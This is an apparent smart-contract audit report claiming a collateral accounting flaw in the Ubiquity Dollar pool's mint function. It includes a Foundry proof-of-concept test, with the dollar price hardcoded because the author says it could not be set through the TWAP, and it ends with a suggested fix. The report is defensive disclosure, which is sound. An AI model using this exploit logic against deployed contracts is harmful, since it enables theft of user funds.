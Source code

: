 Soft Carrot Owl

high

# Theft of dollar token

## Summary
Attacker can exploit the wrong accounting in `getDollarInCollateral` fn to pay less collateral than is needed. 
## Vulnerability Detail
The issues lies in `getDollarInCollateral` fn, the way we use it with `mintDollar` fn:
```solidity
    function getDollarInCollateral(
        uint256 collateralIndex,
        uint256 dollarAmount
    ) internal view returns (uint256) {
        UbiquityPoolStorage storage poolStorage = ubiquityPoolStorage();
        return
            dollarAmount  
                .mul(UBIQUITY_POOL_PRICE_PRECISION)
                .div(10 ** poolStorage.missingDecimals[collateralIndex])
                .div(poolStorage.collateralPrices[collateralIndex]); 
    }

``` 

To `mintDollar`, a user can specified collateralIndex, dollarAmount, etc. The fn internally uses `getDollarInCollateral` to determine how much collateral is needed to mint user-specified dollarAmount. Before this call, it ensures the dollar USD price is up to date(via calling `LibTWAPOracle.update()`). However, it fails to convert the dollarAmount to the USD value of dollarAmount before passing it to the `getDollarInCollateral` fn. 

```solidity
function mintDollar(
    uint256 collateralIndex,
    uint256 dollarAmount,
    uint256 dollarOutMin,
    uint256 maxCollateralIn
)
    internal
    collateralEnabled(collateralIndex)
    returns (uint256 totalDollarMint, uint256 collateralNeeded)
{
    ...SNIP...
    // update Dollar price from Curve's Dollar Metapool
    LibTWAPOracle.update();
 
    require(
        getDollarPriceUsd() >= poolStorage.mintPriceThreshold, 
        "Dollar price too low"
    );

    // update collateral price
    updateChainLinkCollateralPrice(collateralIndex);

    // get amount of collateral for minting Dollars
    collateralNeeded = getDollarInCollateral(collateralIndex, dollarAmount);
    
    ...SNIP...
}

```

```solidity
function getDollarInCollateral(
    uint256 collateralIndex,
    uint256 dollarAmount
) internal view returns (uint256) {
    UbiquityPoolStorage storage poolStorage = ubiquityPoolStorage();
    return
        dollarAmount  // @audit: not using dollar usd price for dollarAmount
            .mul(UBIQUITY_POOL_PRICE_PRECISION)
            .div(10 ** poolStorage.missingDecimals[collateralIndex])
            .div(poolStorage.collateralPrices[collateralIndex]); // @audit: returns the usd price of collateral
}
```

That means, if currently dollar price is at 1.1 usd/uad, an attacker can pay collateral worth 1mil USD to get 1mil uad(= 1mil x 1.1 USD), considering zero fees. Consequently, the attacker can pocket an extra $100k worth of dollar tokens.

## Impact
Fund loss. 
## Code Snippet
Add test to `/packages/contracts/test/diamond/facets/UbiquityPoolFacet.t.sol` and run `forge test --mt test_exploit -vv`
```solidity
 function test_Attack() public { 
    address bob = makeAddr("bob");
    collateralToken.mint(bob, 1_000_000e18);

    // set no fee and poolCeiling high enough for ease
    vm.startPrank(admin);
    ubiquityPoolFacet.setFees(0,0,0);
    ubiquityPoolFacet.setPriceThresholds(1000000,1000000);
    ubiquityPoolFacet.setPoolCeiling(0, 10_000_000e18);
    vm.stopPrank();

    vm.startPrank(bob);
    collateralToken.approve(address(ubiquityPoolFacet), type(uint256).max); 
    (uint256 totalDollarMintBob, ) = ubiquityPoolFacet.mintDollar(
        0,
        1_000_000e18, 
        0, 
        1_000_000e18
    ); 
    assertEq(totalDollarMintBob, 1_000_000e18);

    uint256 dollarPrice = 1.1e6; // can't find a way to set price via twap 

    uint256 attacker_usd_balance = (totalDollarMintBob *  dollarPrice) / 1e6; 
    uint256 collateral_transferred_usd = collateralToken.balanceOf(address(ubiquityPoolFacet));  // consider 1:1 for stablecoins
    assertGt(attacker_usd_balance, collateral_transferred_usd);

    emit log_named_uint("collateral_transferred_usd", collateral_transferred_usd);
    emit log_named_uint("attacker_usd_balance ", attacker_usd_balance);
}
```
## Tool used

Manual Review

## Recommendation
Fix it by converting dollarAmount to USD value of dollarAmount using `getDollarPriceUsd` into the `getDollarInCollateral` fn, 
https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibUbiquityPool.sol#L284-L294 